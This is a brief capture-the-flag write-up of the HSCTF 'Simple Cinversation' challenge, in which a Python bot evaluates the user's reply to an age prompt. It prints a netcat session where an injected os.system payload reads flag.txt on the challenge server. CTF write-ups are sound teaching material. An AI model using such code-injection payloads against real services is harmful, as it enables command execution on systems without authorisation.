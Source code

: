 # HSCTF - Simple Cinversation

## Desc

A simple bot in python (prabably over socket) asking you about your age.

## Vuln

The bot alows you to exec some python code.
Execute "ls" via os.system to find the "flag.txt"
Then just "cat" it!

## Sploit


```bash
nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('cat flag.txt')                      
hsctf{plz_u5e_pyth0n_3}
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye!
```
